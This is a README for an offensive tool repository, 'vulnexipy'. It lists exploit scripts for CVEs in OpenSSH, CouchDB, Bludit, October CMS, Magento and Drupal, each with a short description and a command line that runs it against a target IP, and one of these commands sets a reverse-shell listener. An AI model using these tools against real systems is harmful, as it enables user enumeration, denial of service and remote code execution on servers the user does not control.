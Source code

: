 # vulnexipy

**Vulnerabilities exploitation examples**

## Examples

CVE-2016-6210 - sshd in OpenSSH before 7.3, when SHA256 or SHA512 are used for user password hashing, uses BLOWFISH hashing on a static password when the username does not exist, which allows remote attackers to enumerate users by leveraging the timing difference between responses when a large password is provided.

```bash
python cve_2016_6210.py --target 10.10.6.17 --usernames users.txt
```
CVE-2016-6515 - The auth_password function in auth-passwd.c in sshd in OpenSSH before 7.3 does not limit password lengths for password authentication, which allows remote attackers to cause a denial of service (crypt CPU consumption) via a long string. 

```bash
python cve_2016_6515.py --target 10.10.6.13 --username root
```

CVE-2017-12635 - Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit '_users' documents with duplicate keys for 'roles' used for access control within the database, including the special case '_admin' role, that denotes administrative users.
```bash
python cve_2017_12635 --target 10.10.6.14 -u couchdb -p mysuperpswd
```

CVE-2019-16113 - Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

```bash
python cve_2019_16113.py --url 10.10.6.15 --username admin --password admin --cmd whoami
```

CVE-2017-1000119 - October CMS build 412 is vulnerable to PHP code execution in the file upload functionality resulting in site compromise and possibly other applications on the server.

```bash
python cve_2017_1000119.py --url http://10.10.6.16 -user admin -pswd admin -lhost 10.10.14.16 -lport 4444
```

Magento Community Edition < 1.9.0.1 - Authenticated Remote Code Execution
```bash
python magento_auth_rce.py --url http://10.10.10.112 --user admin --pswd admin
```

CVE-2018-7600 - Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.
```bash
python cve_2018_7600.py --url http://10.10.10.151 --cmd whoami
```

**This tool is a Proof of Concept and is for Educational Purposes Only!!!**
**Author takes no responsibility of any damage you cause**
